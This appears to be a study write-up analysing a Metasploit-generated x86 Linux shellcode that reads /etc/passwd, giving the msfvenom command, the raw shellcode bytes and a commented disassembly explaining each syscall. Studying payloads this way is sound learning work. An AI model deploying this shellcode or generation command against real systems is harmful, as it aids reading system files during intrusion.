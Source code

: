 # Analyze: Read File

# Create shellcode

```bash
msfvenom -p linux/x86/read_file -f c PATH=/etc/passwd
```

The output is shellcode that will read the file /etc/passwd and print to STDOUT.

# Analysis

## Disassemble
```bash
echo -n "\xeb\x36\xb8\x05\x00\x00\x00\x5b\x31\xc9\xcd\x80\x89\xc3\xb8\x03\x00\x00\x00\x89\xe7\x89\xf9\xba\x00\x10\x00\x00\xcd\x80\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xc5\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x00" | ndisasm -u -
```

## Disassembled Assembly

```x86asm
00000000  EB36              jmp short 0x38
00000002  B805000000        mov eax,0x5
00000007  5B                pop ebx
00000008  31C9              xor ecx,ecx
0000000A  CD80              int 0x80
0000000C  89C3              mov ebx,eax
0000000E  B803000000        mov eax,0x3
00000013  89E7              mov edi,esp
00000015  89F9              mov ecx,edi
00000017  BA00100000        mov edx,0x1000
0000001C  CD80              int 0x80
0000001E  89C2              mov edx,eax
00000020  B804000000        mov eax,0x4
00000025  BB01000000        mov ebx,0x1
0000002A  CD80              int 0x80
0000002C  B801000000        mov eax,0x1
00000031  BB00000000        mov ebx,0x0
00000036  CD80              int 0x80
00000038  E8C5FFFFFF        call 0x2
0000003D  2F                das
0000003E  657463            gs jz 0xa4
00000041  2F                das
00000042  7061              jo 0xa5
00000044  7373              jnc 0xb9
00000046  7764              ja 0xac
00000048  00                db 0x00
```

Here I will dissect the assembly piece by piece, followed by a commented version of theh code in entirety.


## Disassembly Review

The first command that is run jumps to the data section 

```x86asm
00000000  EB36              jmp short 0x38  ; jmp to jump1
.
.
; <shellcode>
.
.
jump1:
00000038  E8C5FFFFFF        call 0x2    ; jump to main
                                        ; address of 0x3D pushed to top of stack
0000003D  2F6574632F706173737764        ; /etc/passwd
00000048  00                db 0x00     ; NULL terminator
```

It it will jump to `00000038` which calls back to the beginning of the shellcode. Importantly, this call places the address of the string "/etc/passwd" on the stack that would traditionally be used as a return address for a call, however, I will use it later to as the path of the file to read.

```x86asm
00000038  E8C5FFFFFF        call 0x2    ; jump to main
                                        ; address of 0x3D pushed to top of stack
0000003D  2F6574632F706173737764        ; /etc/passwd
00000048  00                db 0x00     ; NULL terminator
```

Next `0x5` is moved into `eax`, which in the context of a [syscall()](https://man7.org/linux/man-pages/man2/syscall.2.html) is [open()](https://man7.org/linux/man-pages/man2/open.2.html) which has a function definition of:

```c
int open(const char *pathname, int flags);
```

We then pop the address of our string off the stack into `ebx` to be used as the first argument in open(), and clear out `ecx` that will be used as the flags argument. 

The syscall() is executed using `int 0x80` and the return value is moved into `ebx` which is a pointer to the opened file (in this case /etc/passwd).

```x86asm
00000002  B805000000        mov eax,0x5     ; open()
00000007  5B                pop ebx         ; <addr> 0x3D (filename from stack) 
00000008  31C9              xor ecx,ecx     ; clear ecx
0000000A  CD80              int 0x80        ; call open() 
0000000C  89C3              mov ebx,eax     ; ebx now holds file descriptor
```

New another syscall() will be prepared to execute [read()](https://man7.org/linux/man-pages/man2/read.2.html) which has a function definition of:

```c
ssize_t read(int fd, void *buf, size_t count);
```

The read() syscall index is `0x3` and will be moved into `eax`. 

Then the stack pointer is moved into `edi` and `edi` is moved into `ecx`, which will be used as the second parameter to the read() function. I'm not sure what the first assignment to `edi` is doing, it seems unnecessary. Perhaps it is for polymorphic reasons? In any event, since `ecx` holds a pointer to the stack, it will be used as the buffer to write the file data into. To be exact, data will be read from the target file (/etc/passwd) and it's contents will be written to the stack.

Then the value of `0x1000` or `4096` in decimal is moved into `edx` for the third parameter, which is the number of bytes to read.

Once the syscall is executed and the file data has been read, the number of bytes read will be returned in `eax`.

The assembly for these operations is here:

```x86asm
0000000E  B803000000        mov eax,0x3     ; read() 
                                            ; man 2 read
                                            ; ssize_t read(int fd, void *buf, size_t count);
00000013  89E7              mov edi,esp     ; ??
00000015  89F9              mov ecx,edi     ; ptr to stack : returned file content will fill this buffer
00000017  BA00100000        mov edx,0x1000  ; buf = 4096
0000001C  CD80              int 0x80        ; call read()
0000001E  89C2              mov edx,eax     ; edx holds number of bytes returned from read()
```

At this point in time, the stack holds the data that was read from /etc/passwd and `eax` holds the number of bytes that was read from this file.

Now the `0x4` syscall is prepared. This corresponds to the [write()](https://man7.org/linux/man-pages/man2/write.2.html) function that looks liks this:
```c
ssize_t write(int fd, const void *buf, size_t count);
```

The first parameter is loaded into `ebx` and is a `1` as this is a reference to the STDOUT file descriptor on linux. 

The second parameter is still `ecx` which is a pointer to the stack. 

The final parameter `edx` was the return value from the read() command, and is the number of bytes to write. 

This assembly is taking the data read from /etc/passwd, which is currently stored on the stack, and outputs it to STDOUT (the console):

```x86asm
00000020  B804000000        mov eax,0x4     ; write()
00000025  BB01000000        mov ebx,0x1     ; 1 = stdout (where to write output)
0000002A  CD80              int 0x80        ; call write() 
                                            ; NOTE: ecx still points to stack (buffer to write)



0000002C  B801000000        mov eax,0x1     ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 1$"
                                            ; man exit
                                            ; void exit(int status);
00000031  BB00000000        mov ebx,0x0     ; status = 0 = EXIT_SUCCESS
00000036  CD80              int 0x80        ; call exit()
```

## Disassembled (Cleaned and commented)

Here I have cleaned and commented the code in entirety.

```x86asm
00000000  EB36              jmp short 0x38  ; jmp to jump1

main:
    ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep  5$    
    ; open()
    ; int open(const char *pathname, int flags);
00000002  B805000000        mov eax,0x5 
00000007  5B                pop ebx         ; <addr> 0x3D (filename from stack) 
00000008  31C9              xor ecx,ecx     ; clear ecx
0000000A  CD80              int 0x80        ; call open() 



0000000C  89C3              mov ebx,eax     ; ebx now holds file descriptor
0000000E  B803000000        mov eax,0x3     ; read() :cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 3$"
                                            ; man 2 read
                                            ; ssize_t read(int fd, void *buf, size_t count);
00000013  89E7              mov edi,esp     
00000015  89F9              mov ecx,edi     ; ptr to stack : returned file content will fill this buffer
00000017  BA00100000        mov edx,0x1000  ; buf = 4096
0000001C  CD80              int 0x80        ; call read()





0000001E  89C2              mov edx,eax     ; edx holds number of bytes returned from read()
00000020  B804000000        mov eax,0x4     ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 4$"
                                            ; write()
                                            ; man 2 write
                                            ; ssize_t write(int fd, const void *buf, size_t count);
00000025  BB01000000        mov ebx,0x1     ; 1 = stdout (where to write output)
0000002A  CD80              int 0x80        ; call write() 
                                            ; NOTE: ecx still points to stack (buffer to write)



0000002C  B801000000        mov eax,0x1     ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 1$"
                                            ; man exit
                                            ; void exit(int status);
00000031  BB00000000        mov ebx,0x0     ; status = 0 = EXIT_SUCCESS
00000036  CD80              int 0x80        ; call exit()



jump1:
00000038  E8C5FFFFFF        call 0x2    ; jump to main
                                        ; address of 0x3D pushed to top of stack
0000003D  2F6574632F706173737764        ; /etc/passwd
00000048  00                db 0x00     ; NULL terminator
```

## Libemu
https://github.com/buffer/libemu
```bash
echo -n "\xeb\x36\xb8\x05\x00\x00\x00\x5b\x31\xc9\xcd\x80\x89\xc3\xb8\x03\x00\x00\x00\x89\xe7\x89\xf9\xba\x00\x10\x00\x00\xcd\x80\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xc5\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x00"  | sctest -S -s 10000 -vv -G msfvenom-linux-x86-exec.dot
```